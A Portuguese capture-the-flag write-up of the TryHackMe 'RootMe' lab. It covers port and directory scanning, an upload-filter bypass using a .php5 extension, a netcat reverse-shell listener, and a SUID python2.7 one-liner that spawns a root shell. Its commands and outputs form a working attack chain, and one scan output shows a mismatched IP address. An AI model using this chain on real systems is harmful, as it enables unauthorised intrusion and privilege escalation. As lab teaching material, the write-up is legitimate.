



## Visão Geral

| Campo       | Detalhe                                      |
| ----------- | -------------------------------------------- |
| Plataforma  | TryHackMe                                    |
| Dificuldade | Fácil                                        |
| IP alvo     | `10.66.160.163`                              |
| SO          | Ubuntu 20.04 LTS                             |
| Vetor       | File upload bypass → PHP reverse shell → SUID python2.7 |

O desafio [RootMe](https://tryhackme.com/room/rrootme) simula uma máquina com serviços expostos na internet. A metodologia segue três etapas: **Enumeração → Exploração → Escalada de Privilégios**.

---

## 1. Reconhecimento

### 1.1 Port Scan

```
nmap -sC -sV 10.66.160.163

Starting Nmap 7.98 at 2026-04-02 18:47 -0300
Nmap scan report for 10.66.160.162
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Duas portas abertas: **SSH** (22) e **HTTP** (80). A superfície de ataque da porta 80 é maior — foco na enumeração web.

### 1.2 Enumeração Web

Inspeção do código-fonte revela diretórios `js` e `css`:

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="stylesheet" href="css/home.css">
<script src="js/maquina_de_escrever.js"></script>
```

### 1.3 Enumeração de Diretórios (Gobuster)

```
gobuster dir -u http://10.66.160.163 <FLAGS>

index.php            (Status: 200) [Size: 616]
uploads              (Status: 301) [Size: 316] [--> http://10.66.160.163/uploads/]
css                  (Status: 301) [Size: 312] [--> http://10.66.160.163/css/]
js                   (Status: 301) [Size: 311] [--> http://10.66.160.163/js/]
panel                (Status: 301) [Size: 314] [--> http://10.66.160.163/panel/]
```

Dois diretórios de interesse: **`/uploads`** (possibilidade de upload) e **`/panel`**.



---

## 2. Exploração

### 2.1 Upload de Arquivo — Filtro e Bypass

O diretório `/panel` expõe um formulário de upload. Tentativa com `.php` é bloqueada:



Bypass via extensão alternativa — referência: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst). Renomeia-se o arquivo para `.php5`:



Upload bem-sucedido. O arquivo fica acessível em `/uploads`.

### 2.2 Reverse Shell

IP do atacante na interface VPN:

```
ip addr show dev tun0
inet 192.168.224.89/17 brd 192.168.255.255 scope global noprefixroute tun0
```

Listener e acionamento do shell:

```
nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.66.160.163 33044
Linux ip-10-66-160-163 5.15.0-139-generic x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Acesso como `www-data`.

---

## 3. Escalada de Privilégios

### 3.1 Binários SUID

```
find / -perm -4000 -type f 2>/dev/null

/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
```

`python2.7` com SUID — vetor identificado via [GTFOBins](https://gtfobins.github.io).

### 3.2 Exploit via python2.7

```
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

---

## Conclusão

O RootMe demonstra a cadeia: enumeração de diretórios (Gobuster) → descoberta de upload sem validação adequada → bypass de filtro via extensão `.php5` → PHP reverse shell como `www-data` → SUID `python2.7` para escalar para `root`.

---

## Referências

- LYON, Gordon. **Nmap: The Network Mapper**. Disponível em: https://nmap.org. Acesso em: abr. 2026.
- REEVES, OJ. **Gobuster**. GitHub. Disponível em: https://github.com/OJ/gobuster. Acesso em: abr. 2026.
- pentestmonkey. **php-reverse-shell**. GitHub. Disponível em: https://github.com/pentestmonkey/php-reverse-shell. Acesso em: abr. 2026.
- swisskyrepo. **PayloadsAllTheThings**. GitHub. Disponível em: https://github.com/swisskyrepo/PayloadsAllTheThings. Acesso em: abr. 2026.
- GTFOBINS CONTRIBUTORS. **GTFOBins**. Disponível em: https://gtfobins.github.io. Acesso em: abr. 2026.
- TryHackMe. **RootMe**. Disponível em: https://tryhackme.com/room/rrootme. Acesso em: abr. 2026.
